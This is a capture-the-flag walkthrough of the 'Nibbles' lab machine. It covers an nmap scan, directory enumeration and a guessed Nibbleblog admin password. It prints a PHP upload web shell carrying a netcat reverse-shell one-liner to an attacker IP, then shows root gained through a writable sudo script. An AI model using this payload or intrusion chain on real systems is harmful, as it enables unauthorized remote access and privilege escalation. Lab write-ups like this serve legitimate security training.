 # NIBBLES

---

Ip 10.129.249.61 

10.129.200.170

I start with an nmap scan on the machine.

```
sudo nmap -Pn -sS -sV 10.129.249.61 
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-10-01 12:47 CDT
Nmap scan report for 10.129.249.61
Host is up (0.0095s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 6.55 seconds

```

![Screenshot 2024-10-01 at 2.00.19 PM.png](NIBBLES%2011224f42a85b80939544c4636202f36c/Screenshot_2024-10-01_at_2.00.19_PM.png)

![Screenshot 2024-10-01 at 2.01.58 PM.png](NIBBLES%2011224f42a85b80939544c4636202f36c/Screenshot_2024-10-01_at_2.01.58_PM.png)

![Screenshot 2024-10-01 at 2.03.04 PM.png](NIBBLES%2011224f42a85b80939544c4636202f36c/Screenshot_2024-10-01_at_2.03.04_PM.png)

We can see its powered by nibbleblog. Upon looking online an exploit was found.

![Screenshot 2024-10-01 at 2.07.35 PM.png](NIBBLES%2011224f42a85b80939544c4636202f36c/Screenshot_2024-10-01_at_2.07.35_PM.png)

Found a metasploit module but im lacking creds yet. I also need /admin

I could have used gobusters here but Since I knew this exploit worked on /admin I just went into /admin and it worked.

![Screenshot 2024-10-01 at 2.08.22 PM.png](NIBBLES%2011224f42a85b80939544c4636202f36c/Screenshot_2024-10-01_at_2.08.22_PM.png)

Nonetheless i will still try gobusters in case there is a directory im missing.

```
/.hta (Status: 403)
/.htaccess (Status: 403)
/.htpasswd (Status: 403)
/admin (Status: 301)
/admin.php (Status: 200)
/content (Status: 301)
/index.php (Status: 200)
/languages (Status: 301)
/plugins (Status: 301)
/README (Status: 200)
/themes (Status: 301)
```

I got all of these directories upon taking a closer look I saw the README so I went there and I got the version which is 
`Version: v4.0.3`

I went back into the admin.php and attempted to use admin:admin as well as admin:password or password1 but it did not work.

I went into /content

![Screenshot 2024-10-01 at 2.15.25 PM.png](NIBBLES%2011224f42a85b80939544c4636202f36c/Screenshot_2024-10-01_at_2.15.25_PM.png)

![Screenshot 2024-10-01 at 2.15.47 PM.png](NIBBLES%2011224f42a85b80939544c4636202f36c/Screenshot_2024-10-01_at_2.15.47_PM.png)

Found the username.

We can also see they are blocking bruteforcing based on the blacklist there.

So we can’t really bruteforce it. Maybe with the X-Forwarded-Header but this is something to try later if nothing works now.

I went back to the site and tried, admin:nibbles and this worked. This was the name of the box so I thought it would be worth trying.

I attempted to use metasploit but it gave the following messages.

![Screenshot 2024-10-01 at 2.24.07 PM.png](NIBBLES%2011224f42a85b80939544c4636202f36c/Screenshot_2024-10-01_at_2.24.07_PM.png)

So I will try a manual exploit.

I could upload a shell. So I did so.

```
<?php system ("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.15.53 4444 >/tmp/f"); ?>
```

I uploaded a normal photo to see how the path

![image.png](NIBBLES%2011224f42a85b80939544c4636202f36c/image.png)

I changed the image.jpg to image.php and this gave me an error about a failed connection but when I resent the request it worked because now I was listening.

![image.png](NIBBLES%2011224f42a85b80939544c4636202f36c/image%201.png)

Now I will stabilize the shell.

![image.png](NIBBLES%2011224f42a85b80939544c4636202f36c/image%202.png)

Here I managed to get the user flag now I need to escalate my privilege.

![image.png](NIBBLES%2011224f42a85b80939544c4636202f36c/image%203.png)

as can be seen on the above screenshot there was a personal.zip

I unzipped it and ended up getting a script called monitor.sh

before I try to exploit this I will try to run linpeas to get a better look at the whole system.

![image.png](NIBBLES%2011224f42a85b80939544c4636202f36c/image%204.png)

Here by using an http server I managed to transfer linpeas.

```
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-timesync:x:100:102:systemd Time Synchronization,,,:/run/systemd:/bin/false
systemd-network:x:101:103:systemd Network Management,,,:/run/systemd/netif:/bin/false
systemd-resolve:x:102:104:systemd Resolver,,,:/run/systemd/resolve:/bin/false
systemd-bus-proxy:x:103:105:systemd Bus Proxy,,,:/run/systemd:/bin/false
syslog:x:104:108::/home/syslog:/bin/false
_apt:x:105:65534::/nonexistent:/bin/false
lxd:x:106:65534::/var/lib/lxd/:/bin/false
messagebus:x:107:111::/var/run/dbus:/bin/false
uuidd:x:108:112::/run/uuidd:/bin/false
dnsmasq:x:109:65534:dnsmasq,,,:/var/lib/misc:/bin/false
sshd:x:110:65534::/var/run/sshd:/usr/sbin/nologin
mysql:x:111:118:MySQL Server,,,:/nonexistent:/bin/false
nibbler:x:1001:1001::/home/nibbler:
```

linpeas did not find much but after using sudo -l  I was able to find the following.

![image.png](NIBBLES%2011224f42a85b80939544c4636202f36c/image%205.png)

The file is writable by me  so I will add /bin/bash into it and when I run it. it will run a shell with root privilege.

![image.png](NIBBLES%2011224f42a85b80939544c4636202f36c/image%206.png)

Success!!!